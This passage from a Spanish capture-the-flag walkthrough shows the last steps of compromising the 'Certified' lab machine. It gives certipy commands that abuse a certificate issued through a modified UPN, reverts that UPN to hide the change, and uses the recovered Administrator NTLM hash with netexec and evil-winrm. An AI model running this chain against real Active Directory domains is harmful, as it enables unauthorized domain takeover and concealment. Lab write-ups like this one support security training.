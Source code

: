 <figure><img src="../../../.gitbook/assets/2498_vmware_jyZkNvIaIo.png" alt=""><figcaption></figcaption></figure>

Posteriormente, restauramos el UPN de **CA\_OPERATOR** a su valor original para minimizar evidencias de la modificación realizada.

Seguidamente utilizamos el certificado emitido para autenticarnos y verificamos que obtenemos el hash NTLM del usuario "Administrator".

{% code overflow="wrap" %}
```bash
certipy-ad account update -username MANAGEMENT_SVC@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user CA_OPERATOR -upn CA_OPERATOR@certified.htb

certipy-ad auth -pfx administrator.pfx -domain certified.htb
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2499_vmware_lhpHWqABtq.png" alt=""><figcaption></figcaption></figure>

Obtenido el hash NTLM, procederemos a validar las credenciales a través de **netexec** y una vez verificado que son credenciales correctas, procederemos a autenticarnos a través de **evil-winrm**.

Obtenemos la flag de **root.txt**.

```bash
netexec smb 10.10.11.41 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'

evil-winrm -i 10.10.11.41 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'
```

<figure><img src="../../../.gitbook/assets/2500_vmware_YYXDj7sVuS.png" alt=""><figcaption></figcaption></figure>
